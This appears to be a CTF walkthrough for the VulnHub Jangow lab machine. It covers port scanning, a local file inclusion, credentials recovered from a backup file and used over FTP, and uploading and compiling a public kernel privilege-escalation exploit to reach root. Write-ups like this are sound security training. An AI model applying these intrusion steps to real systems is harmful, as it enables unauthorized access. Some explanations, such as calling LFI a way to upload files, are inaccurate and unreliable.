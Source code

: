# JANGOW-1.0.1-Walkthrough-Vulnhub
Walkthrough and exploitation steps for the Jangow CTF machine from VulnHub.
## VulnHub CTF — Jangow Walkthrough

This is a walkthrough for the **Jangow** machine from VulnHub. It covers the entire exploitation process, including enumeration, LFI, credential discovery, privilege escalation, and finally rooting the machine.

---

### 1.Setup

- Import the `.ova` file into VirtualBox.
- Run the machine.
- Use `netdiscover` to identify its IP:

```bash
netdiscover -i eth0
```
## Result

(images/netdiscover.png)
I discovered the machine at `192.168.1.122`.

---

### 2.Port Scanning with Nmap

Initial port scan:

```bash
nmap 192.168.1.122
```
## Nmap Scan Result

![Nmap Output](https://example.com/nmap_result.png)
Open ports:
- **80 (HTTP)**
- **21 (FTP)**
  
We see that ports 80 and 21 are open. 80 is an HTTP website port, while 21 is an FTP file transfer port. Now let's use nmap to scan them in detail. Command: nmap -p 80,21 -Pn -n -sC -sV -oN nmaptaramasi.txt 192.168.1.122

Detailed scan:

```bash
nmap -p 80,21 -Pn -n -sC -sV -oN nmap_scan.txt 192.168.1.122
```
[Output](https://example.com/nmap_result.png)

**Flags used:**
- `-p`: specific ports
- `-Pn`: skip host discovery
- `-n`: skip DNS resolution
- `-sC`: run default scripts
- `-sV`: detect service versions
- `-oN`: save output to file

---

### 3.Web Enumeration

Visiting `http://192.168.1.122` reveals a website with a **"Buscar"** tab, which redirects to:

```
https://pwnlab.me/redirect?to=aHR0cDovLzE5Mi4xNjguNTYuMTE4L3NpdGUvYnVzcXVlLnBocD9idXNjYXI9
```
[Output](https://example.com/nmap_result.png)

This link appears vulnerable to **Local File Inclusion (LFI)**. LFI allows us to upload files remotely. Since the machine is currently running locally, it's local, of course. If it can be uploaded to a remote server, it's RFI. Since I'm running the machine locally, I'll exploit LFI. 

##Local File Inclusion (LFI)
Local File Inclusion (LFI) is a web browser option that enables an attacker to include files on a server. When a web application contains a file before correctly filtering the input, this vulnerability occurs, allowing an attacker to modify the input, insert jump characters from the route, and provide other files from the webserver. It typically affects PHP applications.
By manipulating the URL, we can inspect the file structure and extract sensitive files.

---
[Output](https://example.com/nmap_result.png)

### 4.Credential Discovery

Exploring the web root:

```bash
pwd
# /var/www/html/site

ls -all
```
[Output](https://example.com/nmap_result.png)
[Output](https://example.com/nmap_result.png)

Found a hidden file: `.backup`  
Contents of `.backup` reveal **MySQL credentials**. .backup has read and write permissions.
Also, since FTP port is open, I tested those credentials on the FTP service.

---
[Output](https://example.com/nmap_result.png)

### 5.FTP Access & File Upload

Login to FTP using:

```bash
ftp 192.168.1.122
```

Credentials:
```
Username: jangow01
Password: abygurl69
```
[Output](https://example.com/nmap_result.png)

We've now learned that we can put files inside. We'll try navigating to different directories and using the "put" command. Our goal here is to run the exploit we've installed and become root. To do this, we'll use Local Privilege Escalation. I'll go to my home directory and enter the directory named "jangow01."
Change to the user's home directory:

```ftp
cd /home/jangow01
```
```ftp
ls -all
```
[Output](https://example.com/nmap_result.png)
Download the user flag:

```ftp
get user.txt
```
[Output](https://example.com/nmap_result.png)
---

### 6.Privilege Escalation

Check the kernel version:

```bash
uname -a
# Linux jangow01 4.4.0-31-generic
```
[Output](https://example.com/nmap_result.png)

Search for privilege escalation exploits and found:  
**CVE-2017-16995**
Downloaded and saved the exploit as `jangow.c`.
https://www.exploit-db.com/exploits/45010

Upload it via FTP:

```ftp
put jangow.c
```
[Output](https://example.com/nmap_result.png)
---

### 7.Compilation & Exploitation

On the Jangow machine:
Now let's compile and assemble the .c file using the gcc command: gcc jangow.c -o jangow
Now to make it executable: chmod +x jangow
Then execute the script: ./jangow

```bash
gcc jangow.c -o jangow
chmod +x jangow
./jangow
```
[Output](https://example.com/nmap_result.png)
Now you're root!

---

###8.Root Flag

Check the user:

```bash
whoami
# root
```
[Output](https://example.com/nmap_result.png)
Get the flag:

```bash
ls /root
cat /root/proof.txt
```
[Output](https://example.com/nmap_result.png)
---

## Summary

- Gained access via **LFI**
- Extracted credentials via hidden file
- Used **FTP** to upload a privilege escalation exploit
- Compiled and executed exploit
- Gained **root access**

**Machine successfully rooted!** 
